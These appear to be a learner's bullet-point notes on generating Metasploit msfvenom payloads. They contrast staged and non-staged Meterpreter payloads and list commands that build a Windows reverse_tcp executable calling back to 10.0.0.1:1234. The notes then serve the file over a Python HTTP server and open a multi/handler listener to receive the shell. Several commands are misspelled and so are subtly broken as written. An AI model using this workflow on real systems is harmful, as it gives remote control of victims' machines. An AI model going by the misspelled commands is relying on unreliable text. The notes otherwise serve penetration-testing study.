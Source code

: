 - msfvenom --list payload
- staged vs non staged payload
- windows/x64/meterpter/reverse_http
- this is staged payload because you specify meterpter and then the protcol you want to use 
- windows/x64/meterpter_reverse_http
- this is non-staged payload because you specify meterpter as one payload
- msfcenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT= 1234 -f exe > /home/kali/Desktop/Windowws_payloads/payloadx86.exe
- then we can trasnfer this to target system 
- msfvenom --list formats (get type extiontions ) 
- sudo python -m SimpleHTTPServer 80 (so we can send our file to target system )
- we need to open handler listner from our kali system 
- msfconsole
- use /multi/handler
- set payload same payload as the same one to make our shell by msfvenom which is /windows/meterpter/reverse_tcp
- set LHOST and LPORT | run
- now the listener is ON!
- we got to our target we fire up that payload
